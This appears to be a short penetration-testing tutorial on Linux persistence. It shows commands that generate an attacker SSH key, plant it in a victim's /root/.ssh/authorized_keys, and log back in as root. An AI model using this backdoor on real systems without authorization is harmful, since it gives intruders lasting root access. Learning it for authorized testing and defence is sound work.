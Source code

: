 # Linux/Unix Persistence

## Persistence

Sometimes we may need to maintain access to our target, there are a lot of methods that we can use to accomplish this task.

### SSH

```text
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
...<snip>...
kali@kali:~$ cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali
```

With our ssh key generated, we can create the authorized\_keys file on the host to accept our public key.

```text
root@victim: mkdir /root/.ssh
root@victim: echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" > /root/.ssh/authorized_keys
```

Now on Kali, we can use the ssh client to connect to the victim directly.

```text
kali@kali:~$ ssh root@10.10.10.10
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
...<snip>...
root@victim:~#
```

